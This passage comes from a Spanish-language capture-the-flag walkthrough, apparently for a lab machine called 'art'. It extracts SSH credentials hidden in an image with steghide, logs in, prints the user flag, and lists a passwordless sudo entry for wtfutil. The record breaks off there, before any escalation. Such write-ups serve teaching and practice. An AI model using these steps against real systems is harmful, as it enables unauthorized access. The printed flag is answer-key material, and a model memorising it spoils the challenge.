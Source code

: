 ```shell
steghide extract -sf dsa32.jpg
```

Dejamos la contraseña `vacia`...

Info:

```
Enter passphrase: 
wrote extracted data to "yes.txt".
```

Veremos que efectivamente nos extrajo un archivo llamado `yes.txt`, si lo leemos veremos que contiene lo siguiente:

```
lion/shel0vesyou
```

Vamos a probar dichas credenciales mediante el `SSH`.

### SSH

```shell
ssh lion@<IP>
```

Metemos como contraseña `shel0vesyou` y veremos que estamos dentro.

Info:

```
Linux art 5.10.0-16-amd64 #1 SMP Debian 5.10.127-2 (2022-07-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Aug  3 11:18:18 2022 from 192.168.1.51
lion@art:~$ whoami
lion
```

Por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVygUmTyvRPWduINKYfmpO
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for lion on art:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lion may run the following commands on art:
    (ALL : ALL) NOPASSWD: /bin/wtfutil
```

